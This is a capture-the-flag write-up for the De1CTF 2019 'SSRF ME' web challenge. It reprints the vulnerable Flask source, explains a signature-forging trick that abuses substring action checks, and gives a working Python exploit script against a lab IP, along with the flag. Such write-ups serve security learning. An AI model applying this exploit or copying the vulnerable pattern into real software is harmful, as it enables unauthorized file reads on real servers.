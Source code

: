 ```yaml
---
title: "SSRF ME - De1CTF 2019"
date: 2019-08-06T22:59:36+02:00
tags:
    - "CTF"
    - "De1CTF"
    - "Web"
    - "SSRf"
draft: true
---
```


![Information](/images/de1ctf-2019/ssrfme/description.png)
---

For this challenge we are provided with a url that returns us the following python
code:
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

It's the code from the Flask app that is running on the website.

Basically it's a simple web app that allows us to do two things by using the
`action` parameter:

* scan: writes the content of a file located on the server in a file called
`result.txt`

* read: returns the content of the `result.txt` file

The `scan` and `read` actions are invoked by making a request to the `/De1ta`
endpoint.


The problem is that we need to provide a cookie called `sign` that is
remotely checked and must be in this format:
```
md5(secret_key + param + action)
```
`param` is used in conjuction with the `scan` action to indicate which file to
read.

We can see at the beginning of the python script that the `secret_key` is
generated using `os.urandom(16)`, so there's no way to bruteforce it.

Let's analyze the `/geneSign` endpoint.
It allows us to generate a signature using 'scan' as action:
```
md5(secret_key + param + 'scan')
```

The vulnerability in this application is located in the `Exec` function.
Instead of checking if the passed action is equal to `scan` or `read`, it
checks if the action contains `scan` and `read`.
We can exploit this by making a request to `geneSign` with 'flag.txtread' as
`param`, so that the following signature is generated:

```
secret_key + 'flag.txtread' + 'scan'
```
and then use the signature with `scan` and `read` actions to read the flag.
Here's the python code to do that:

```python
#!/usr/bin/env python3
import requests
import urllib

def getSign(param, action):
    params = {'param': param}
    cookies =  {'action': action}
    r = requests.get("http://192.168.43.204:8080/geneSign", params=params, cookies=cookies)
    return r.text.strip().replace('\n', '')

action = 'readscan'
sign = getSign('flag.txtread', '')

params = {'param': 'flag.txt'}
cookies = {'sign': sign, 'action': action}

r = requests.get("http://192.168.43.204:8080/De1ta", params=params, cookies=cookies)
print(r.text)
```

![Flag](/images/de1ctf-2019/ssrfme/flag.png)

### Flag
```
de1ctf{27782fcffbb7d00309a93bc49b74ca26}
```
